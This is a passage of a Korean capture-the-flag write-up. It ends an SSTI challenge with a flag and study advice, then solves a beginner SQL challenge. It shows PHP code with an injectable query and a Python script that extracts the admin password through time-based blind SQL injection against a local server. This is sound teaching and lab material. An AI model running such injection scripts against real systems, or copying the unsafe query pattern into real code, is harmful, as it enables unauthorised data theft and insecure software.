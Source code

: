 Flag: `hspace{57a32c35915278d4de4ca21a8dc22b7f642a2a33e1508050c9498e1e48290e38}`

### 블로그 포스트 작성자의 추가적인 코멘트

이러한 기본적인 ssti 형식의 문제는 보통 `render_template_string`같이 템플릿을 렌더링해주는 함수를 직접적으로 호출하고, 해당 함수 내로 우리의 입력을 바로 전달할 수 있습니다. 이후에는 가지고 계신 지식으로 간단히 exploit을 할 수 있는데, [기본 ssti 공부](https://www.linkedin.com/pulse/studying-ssti-jinja2-python-rce-shell-luiz-henrique-amaral-pereira/)를 위한 사이트를 훑어보시면 좋습니다. 또는 보통 [ssti 치트 시트](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)으로 직접적으로 해결되는 경우가 많으니 해당 치트 시트의 페이로드들이 어떤식으로 작동하는지 살펴보시는 것도 좋은 방법입니다. <br>
개인적인 의견으로는 그냥 치트 시트를 사용해서 문제를 해결하기만 하는 건 성장에 큰 도움이 되지 않는다고 생각합니다. 반드시 이런 기본적인 문제들을 통해서 **이해**하는 과정을 거치시면 좋겠습니다!

`python`에 대한 지식과 `jinja template ssti`에 대한 지식이 있으면 쉽게 해결할 수 있는 문제였습니다.

---

## for_beginner-SQL

**출제자 책정 난이도**: Easy

```php
$userid = $_GET['userid'];
$password = $_GET['password'];

if(isset($userid) && isset($password)) {
    $query = "SELECT userid, password FROM user WHERE userid = '${userid}' and password = '".md5($password)."'";
    try {
        $result = $mysqli->query($query);
        $data = mysqli_fetch_array($result);
        if(isset($data) && $data[0] == "admin" && $data[1] === md5($password)){
            die($flag);
	    } else {
		    die("Wrong...");
	    }
    } catch(Exception $e) {
    }
} else {
    show_source(__FILE__);
}
```

전형적인 sqli 문제다.
admin의 평문 password를 맞게 구하여 로그인하면 플래그를 얻을 수 있다.

이때 sqli의 성공 여부를 확인할 수 없기 때문에 time based sqli를 해주면 된다.

**exploit.py**
```py
import requests
import time
SERVER = "http://localhost:2023"

a = "1234567890abcdef"

pw = ""
for i in range(1,33):
    for j in a:
        url="http://localhost:2023/index.php?userid=admin%27and%20substr(password,"+str(i)+",1)=\""+str(j)+"\"%20and%20sleep(2)%23&password=1"
        starttime = time.time()
        res = requests.get(url)
        endtime = time.time()
        res = res.text
        if endtime-starttime>2:
            pw+=j
            print(pw)
```